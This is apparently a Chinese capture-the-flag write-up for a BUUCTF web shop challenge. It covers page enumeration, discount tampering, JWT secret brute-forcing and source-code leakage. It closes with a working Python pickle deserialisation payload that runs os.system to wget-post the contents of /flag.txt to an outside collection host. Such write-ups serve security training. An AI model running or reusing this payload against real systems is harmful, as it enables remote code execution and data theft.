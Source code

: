 注册登录

```python
import requests

url = "http://web44.buuoj.cn/shop?page={}"

for i in range(1000):
	r = requests.get(url%i)
	if 'lv6' in r.text:
		print url%i
		break

#181
```

购物车

```
name="discount"  value 改小一点
```

结算弹出需要admin

使用工具爆破JWT密钥`1kun`

贴上修改后的JWT

结算成功

查看源代码，源码泄露，下载下来

```
static/asd1f654e683wq/www.zip
```

`Admin.php`存在pickle反序列化漏洞

```python
import os
import pickle
import urllib

class test(object):
    def __reduce__(self):
        return (os.system,("wget 'http://xss.buuoj.cn/index.php?do=api&id=C4TW4q' --post-data='location='`cat /flag.txt` -O-",))

a=test()
payload=pickle.dumps(a)
print(urllib.quote(payload))
```


改become  value 为payload
